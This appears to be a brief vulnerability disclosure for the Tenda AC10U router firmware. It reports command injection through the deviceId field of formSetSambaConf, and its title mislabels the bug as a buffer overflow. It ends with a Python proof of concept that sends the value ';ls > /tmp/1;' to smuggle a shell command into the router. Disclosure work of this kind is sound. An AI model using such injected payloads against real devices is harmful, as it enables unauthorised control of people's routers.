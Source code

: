 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a command injection in httpd/formSetSambaConf

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](19.png)

get value from deviceId ,then call doSystemCmd, can execute arbitrary command.




## POC
```
url = "http://192.168.1.13/goform/formSetSambaConf"
payload = ';ls > /tmp/1;'

r = requests.post(url, data={'deviceId': payload})
``` 
